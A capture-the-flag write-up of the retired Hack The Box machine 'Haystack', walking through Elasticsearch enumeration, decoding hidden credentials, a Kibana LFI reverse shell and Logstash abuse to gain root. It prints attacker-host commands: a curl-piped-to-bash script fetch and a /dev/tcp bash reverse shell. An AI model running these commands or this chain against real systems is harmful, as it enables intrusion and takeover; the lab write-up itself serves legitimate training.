 # Haystack

This is the write-up for the box Haystack that got retired at the 2nd November 2019.
My IP address was 10.10.14.40 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.115    haystack.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/haystack.nmap 10.10.10.115
```

```markdown
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open  http    nginx 1.12.2
| http-methods:
|_  Potentially risky methods: DELETE
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
```

## Checking HTTP (Port 80)

On the web page there is an image of a needle in a haystack and nothing interesting in the source code.

## Checking HTTP (Port 9200)

On the web page on port 9200 there is some kind of API where it shows data in JSON format:

![JSON data](https://kyuu-ji.github.io/htb-write-up/haystack/haystack_web-1.png)

The clustername indicates that there is an **Elasticsearch** service installed on the server.
When looking at the [Elasticsearch Reference](https://www.elastic.co/guide/en/elasticsearch/reference/6.4/index.html) at the _Document APIs_ and _cat APIs_, we can get some information about this application with those methods.

Basic usage of the _cat_ command:
```markdown
curl http://10.10.10.115:9200/_cat/master?v
```

This outputs some general master information but we can look for more information by only typing in the _cat_ command.
Lets look at the indices:
```markdown
curl http://10.10.10.115:9200/_cat/indices?v

# Output
health status index   uuid                   pri rep docs.count docs.deleted store.size pri.store.size
green  open   .kibana 6tjAYZrgQ5CwwR0g6VOoRg   1   0          1            0        4kb            4kb
yellow open   quotes  ZG2D1IqkQNiNZmi2HRImnQ   5   1        253            0    262.7kb        262.7kb
yellow open   bank    eSVpNfCfREyYoVigNWcrMw   5   1       1000            0    483.2kb        483.2kb
```

We can look inside the index _quotes_ like with the following request. I use `jq` to make the JSON output more readable:
```markdown
curl http://10.10.10.115:9200/quotes/_search | jq .
```

This outputs a bunch of Spanish texts. Before working with those, it would be practical to only display the quote values and filter out the other JSON key-value pairs.
```markdown
curl -s http://10.10.10.115:9200/quotes/_search?size=253 | jq '.hits .hits[] .\_source .quote'
```

Now we get only the Spanish quotes from all 253 documents.

### Analyzing the Spanish quotes

To make sense of the Spanish strings, we should send them to a translation service.
For this task, I wrote a Python script that can be found in this repository.
```markdown
python3 haystack_quotes.py | tee quotes-translated.txt
```

After executing this script, it translates all the quotes to English and we can put this into a file to search for interesting results.
```markdown
cat quotes-translated.txt | grep -i password
cat quotes-translated.txt | grep -i secret
cat quotes-translated.txt | grep -i key
```

The word _key_ finds something interesting:
```markdown
This key can not miss, I keep it here: cGFzczogc3BhbmlzaC5pcy5rZXk =
I have to keep the key to the machine: dXNlcjogc2VjdXJpdHkg
```

These strings look like **Base64** so lets decode them:
```markdown
echo 'cGFzczogc3BhbmlzaC5pcy5rZXk' | base64 -d

# Output
user: security
```

```markdown
echo 'cGFzczogc3BhbmlzaC5pcy5rZXk=' | base64 -d

# Output
pass: spanish.is.key
```

The only login we know of is **SSH**, so lets try to log in with the user _security_ and the password _spanish.is.key_ there:
```markdown
ssh security@10.10.10.115
```

This works and we are logged in on the box as the user _security_.

## Privilege Escalation

We should run any **Linux Enumeration script** on the box to get an attack surface:
```markdown
curl 10.10.14.40:8000/LinEnum.sh | bash
```

After analyzing the output, we have the following information:
- There are groups called _kibana_, _logstash_ and _elasticsearch_
- The box is listening on port 5601 on 127.0.0.1

So this means that there is an **ELK Stack** installed on the box.
By default **Kibana** runs on port 5601 and we can verify that by requesting the HTTP page:
```markdown
curl 127.0.0.1:5601
```

With **SSH port forwarding** it is possible to connect to the service from our local client.

### SSH Port forwarding

With the shortcut `~C` the shell starts the ssh command prompt.
In here we can set up the port forwarding:
```markdown
ssh> -L 5602:127.0.0.1:5601
```

This opens port _5602_ on my local client and forwards the service from port _5601_ through the SSH session.
Now we can access the **Kibana** service on our local client:
```markdown
http://localhost:5602
```

### Exploiting Kibana

On _Management_ it shows that this is version 6.4.2 which is from October 2018 and could have some vulnerabilities.
After researching for vulnerabilities, there is this [Local File Inclusion](https://github.com/mpgn/CVE-2018-17246) with a script that can execute a reverse shell on the server.

Lets create a file on the box called _rev.js_ and modify the script to connect to our IP address and then exploit the LFI by requesting the described path:
```markdown
curl 'http://localhost:5602/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../dev/shm/rev.js'
```

The listener on my IP and port 1337 starts a reverse shell as the user _kibana_.

### Privilege Escalation to root

The files in _/etc/logstash_ are owned by the user root and the group _kibana_ with read permissions.
In _/etc/logstash/conf.d_ there are the configuration files for **Logstash**:
```markdown
# input.conf

input {
        file {
                path => "/opt/kibana/logstash_*"
                start_position => "beginning"
                sincedb_path => "/dev/null"
                stat_interval => "10 second"
                type => "execute"
                mode => "read"
        }
}
```

```markdown
# filter.conf

filter {
        if [type] == "execute" {
                grok {
                        match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
                }
        }
}
```

```markdown
# output.conf

output {
        if [type] == "execute" {
                stdout { codec => json }
                exec {
                        command => "%{comando} &"
                }
        }
}
```

We need to create a file called _/opt/kibana/logstash*_ that will be executed.
The string from the filter has to be in that file.

I call the file _logstash_test_ and it has the following contents:
```markdown
Ejecutar comando : bash -i >& /dev/tcp/10.10.14.40/9001 0>&1
```

After a while the listener on my IP and port 9001 starts a reverse shell connection as root!
